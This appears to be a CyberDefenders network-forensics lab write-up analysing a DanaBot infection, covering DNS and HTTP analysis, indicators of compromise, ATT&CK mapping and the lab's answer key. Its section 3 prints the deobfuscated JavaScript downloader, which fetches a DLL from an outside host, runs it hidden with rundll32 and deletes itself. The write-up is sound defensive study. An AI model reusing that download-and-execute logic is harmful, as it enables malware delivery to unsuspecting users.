






# Network Analysis: DanaBot – From a JavaScript Download to a Banking Trojan

**Lab:** CyberDefenders – DanaBot · **Category:** Network Forensics · **Difficulty:** Easy
**Tools:** Wireshark · VirusTotal · Python (to decode the obfuscated script without running it)
**Skills:** PCAP analysis · DNS and HTTP analysis · JavaScript deobfuscation · Malware delivery chains · ATT&CK mapping

> Analysis of a lab sample containing real malware. The PCAP was viewed in Wireshark; the malicious files were extracted, hashed and decoded only in an isolated environment, and nothing was executed.

---

## Summary

A workstation, **10.2.14.101**, visited a page on a **dynamic DNS** domain and downloaded a JavaScript file, **`allegato_708.js`** ("allegato" is Italian for "attachment", a common phishing lure). About a minute later the script ran. It downloaded a second file, **`resources.dll`**, saved it under a random name in the Windows Temp folder, ran it with **`rundll32.exe`** and deleted itself.

The DLL is **DanaBot**, a banking trojan and information stealer (VirusTotal **57/71**). Within 90 seconds the infected machine opened encrypted connections to two IP addresses with no domain name and **sent about 900 KB of data** to one of them, which points to stolen data leaving the network.

---

## Infection chain



---

## Investigation

### 1. DNS: what did the victim look up?

```
dns
```



Among dozens of normal Microsoft and Google lookups, two stood out:

| Time | Domain | Resolved to | Why it's suspicious |
|---|---|---|---|
| 0.00s | `portfolio.serveirc[.]com` | **62.173.142.148** | The very first lookup; name servers are **no-ip.com**, a **dynamic DNS** provider |
| 61.49s | `soundata[.]top` | 188.114.97.3 | A cheap `.top` domain behind Cloudflare, looked up a minute later |

Dynamic DNS lets attackers point a domain at a new IP whenever one gets blocked, so it's common in malware delivery.

### 2. The first download: a JavaScript file

```
http.request
```
then **Follow → HTTP Stream** on the first request.



- **Request:** `GET /login.php` to `portfolio.serveirc[.]com`, from a normal Edge browser with **Italian** language settings (`it-IT`).
- **Response:** `Content-disposition: attachment;filename=allegato_708.js`, a script delivered as a download from a page called "login".
- The script is heavily **obfuscated**: every string is hidden in an encoded array.

**VirusTotal: 32/60**, labelled a **trojan downloader** (Formbook / SLoad / Acsogenixx family names). Detection is lower than for the DLL because obfuscated scripts change constantly.



### 3. What the script does (deobfuscated)

The script hides its strings using the "obfuscator.io" technique: a shuffled array of strings, each one Base64-encoded and **RC4-encrypted**. I rebuilt the decoding routine in Python and decoded the strings **without running the script**. The readable logic (URL defanged):

```javascript
url  = "hxxp://soundata[.]top/resources.dll"
name = <10 random letters> + ".dll"
path = FileSystemObject.GetSpecialFolder(2) + "\" + name     // 2 = Windows Temp folder
http = WScript.CreateObject("MSXML2.XMLHTTP")
http.Open("GET", url, false); http.Send()
if (http.Status == 200) {
    stream = WScript.CreateObject("ADODB.Stream")            // write the download to disk
    stream.Write(http.ResponseBody); stream.SaveToFile(path, 2)
    WScript.CreateObject("Wscript.Shell").Run("rundll32.exe /B " + path + ",start", 0, true)   // run it, hidden
}
FileSystemObject.DeleteFile(WScript.ScriptFullName)            // delete the script itself
```

| Step | Meaning |
|---|---|
| `WScript.CreateObject` | Only works under **Windows Script Host**, so the script was run by **wscript.exe** when the user opened it |
| `MSXML2.XMLHTTP` | Downloads the second stage |
| Random 10-letter name in Temp | Makes the file harder to find and block by name |
| `rundll32.exe /B …,start` | Runs the DLL's `start` function using a trusted Windows program, with the window hidden (`0`) |
| `DeleteFile(ScriptFullName)` | Removes the evidence from the user's machine |

### 4. The second download: DanaBot



At **61.83s**: `GET /resources.dll` from `soundata[.]top`. Note the **User-Agent**: `Mozilla/4.0 (compatible; MSIE 7.0 …)`, an ancient Internet Explorer string, completely different from the user's Edge browser a minute earlier. That's the script's `MSXML2.XMLHTTP` object making the request, not a person. The response was an **11.9 MB Windows executable** (it starts with `MZ`).

**VirusTotal: 57/71**, **DanaBot** (banker, spyware), original filename **WndResizerApp.exe**.



### 5. After infection: command and control

**Statistics → Conversations → TCP**, sorted by bytes:

| Time | Destination | Sent by victim | Received | Notes |
|---|---|---|---|---|
| 157.9s | **195.133.88.98:443** | **~920 KB** | ~60 KB | No DNS lookup – a hardcoded IP |
| 161.5s | **91.201.67.85:443** | ~33 KB | ~28 KB | No DNS lookup – a hardcoded IP |
| 540.2s | 195.133.88.98:443 | ~5.6 KB | ~4.4 KB | Check-in again ~6 minutes later |

The traffic is encrypted, so the contents can't be read. But a workstation **uploading 15 times more than it downloads** to an IP with no domain name, 90 seconds after running a downloaded DLL, is consistent with DanaBot sending stolen data (browser credentials, system information) to its C2 server.

---

## Timeline

Capture date: **14 February 2024** (server time 16:25:54 GMT at the first download).

| Time | Event |
|---|---|
| 0.00s | DNS lookup for `portfolio.serveirc[.]com` (dynamic DNS) → 62.173.142.148 |
| 0.34s | `GET /login.php` → **`allegato_708.js`** downloaded |
| ~61s | User opens the script; **wscript.exe** runs it |
| 61.49s | DNS lookup for `soundata[.]top` → 188.114.97.3 |
| 61.83s | Script downloads **`resources.dll`** (11.9 MB, DanaBot) |
| shortly after | DLL saved to `%TEMP%`, run with **rundll32.exe**; script deletes itself |
| 157.9s | C2 connection to **195.133.88.98:443**, ~920 KB sent |
| 161.5s | Second C2 connection to **91.201.67.85:443** |
| 540.2s | Repeat check-in to 195.133.88.98 |

---

## Answers (lab questions)

| Q | Question | Answer |
|---|---|---|
| 1 | Attacker IP used for initial access | 62.173.142.148 |
| 2 | Malicious file used for initial access | allegato_708.js |
| 3 | SHA-256 of that file | 847b4ad90b1daba2d9117a8e05776f3f902dda593fb1252289538acf476c4268 |
| 4 | Process used to execute it | wscript.exe |
| 5 | Extension of the second malicious file | .dll |
| 6 | MD5 of the second file | e758e07113016aca55d9eda2b0ffeebe |

---

## MITRE ATT&CK

| Tactic | Technique | Evidence |
|---|---|---|
| Initial Access | T1189 Drive-by Compromise / T1566.002 Phishing link | Script delivered from a lure page on a dynamic DNS domain |
| Execution | T1204.002 User Execution: Malicious File | User opened `allegato_708.js` |
| Execution | T1059.007 JavaScript | Script run by Windows Script Host (wscript.exe) |
| Defense Evasion | T1027 Obfuscated Files or Information | Encoded, RC4-encrypted string array |
| Command and Control | T1105 Ingress Tool Transfer | `resources.dll` downloaded by the script |
| Defense Evasion | T1218.011 System Binary Proxy Execution: Rundll32 | `rundll32.exe /B <dll>,start` |
| Defense Evasion | T1070.004 Indicator Removal: File Deletion | Script deletes itself |
| Command and Control | T1071.001 Web Protocols · T1573 Encrypted Channel | HTTPS to hardcoded IPs |
| Command and Control | T1568 Dynamic Resolution | Dynamic DNS domain for delivery |
| Exfiltration | T1041 Exfiltration Over C2 Channel (likely) | ~920 KB uploaded to 195.133.88.98 |

## Indicators of compromise (defanged)

| Type | Value | Context |
|---|---|---|
| Domain | `portfolio.serveirc[.]com` | Delivery page (dynamic DNS, no-ip) |
| IP | `62.173.142.148` | Hosts the delivery page |
| URL | `hxxp://portfolio.serveirc[.]com/login.php` | Serves the JavaScript |
| File | `allegato_708.js` – SHA-256 `847b4ad90b1daba2d9117a8e05776f3f902dda593fb1252289538acf476c4268`, MD5 `5daf53bf848bb4cda008a655bdecf425` | Obfuscated downloader |
| Domain | `soundata[.]top` | Hosts the DLL |
| IP | `188.114.97.3` | soundata.top (Cloudflare) |
| URL | `hxxp://soundata[.]top/resources.dll` | DanaBot download |
| File | `resources.dll` – MD5 `e758e07113016aca55d9eda2b0ffeebe`, SHA-256 `2597322a49a6252445ca4c8d713320b238113b3b8fd8a2d6fc1088a5934cee0e` | DanaBot (original name WndResizerApp.exe) |
| IP | `195.133.88.98` | C2 / likely exfiltration, port 443 |
| IP | `91.201.67.85` | C2, port 443 |
| User-Agent | `Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; …)` | Script's download requests |

---

## Recommended response

*This is a lab, so nothing was actually actioned.*

- **Contain:** isolate 10.2.14.101; block both C2 IPs and both domains.
- **Credentials:** DanaBot steals saved browser passwords and banking details. Reset the user's passwords from a clean device and check for unusual logins.
- **Eradicate:** remove the random-named DLL from `%TEMP%` and any persistence DanaBot added; reimaging is safest.
- **Scope:** search proxy and DNS logs for the domains and IPs across all hosts, and EDR for `rundll32.exe` loading DLLs from Temp folders.

## Recommendations to prevent recurrence

- **Change the default action for `.js` files** (Group Policy) so double-clicking opens Notepad instead of running the script. This alone would have stopped this attack.
- **Block or alert on dynamic DNS and newly registered domains** at the proxy or DNS filter.
- **Alert on `wscript.exe` making network connections** and on **`rundll32.exe` loading DLLs from user-writable folders** like Temp.
- **Flag outdated User-Agents** such as MSIE 7.0 on modern Windows; they're a sign of scripts, not people.
- Train staff that a "document" which downloads as a `.js` file is never a real document.

---

## What I learned

- **Start with DNS.** The malicious domains stood out immediately among normal Microsoft traffic, and the first lookup in the capture was the start of the attack.
- **The User-Agent tells you who is asking.** The browser used a modern Edge string; a minute later, the same machine used MSIE 7.0. That change showed the second download came from a script, not the user.
- **Obfuscation hides intent, not behaviour.** I decoded the script by rebuilding its decoder in Python instead of running it, which showed exactly what it did, including deleting itself.
- **Encrypted traffic still tells a story.** I couldn't read the C2 traffic, but direction, volume and timing (900 KB out, to a hardcoded IP, 90 seconds after infection) were enough to flag likely data theft.
- **Handle malware safely.** I viewed the PCAP in Wireshark but did all extraction and hashing in an isolated environment, because a `.js` file runs as soon as it's double-clicked on Windows.
